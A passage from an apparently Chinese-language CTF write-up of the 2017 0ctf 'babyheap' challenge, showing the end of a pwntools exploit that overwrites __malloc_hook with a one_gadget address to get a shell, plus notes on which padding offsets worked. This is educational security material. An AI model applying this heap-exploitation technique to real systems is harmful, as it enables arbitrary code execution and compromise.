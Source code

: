 ```python
    payload = 0x13 * 'a' + p64(one_gadget_addr)  # 0x13  见下图
    fill(6, len(payload), payload)
    # trigger malloc_hook   
    allocate(0x50)
    
    p.interactive()

if __name__ == "__main__":
    exp()

```



0x13 成功

![img-2](2017-0ctf-babyheap/img-2.png)



0xB 不成功

![img-3](2017-0ctf-babyheap/img-3.png)



0x1B 不成功

![img-4](2017-0ctf-babyheap/img-4.png)

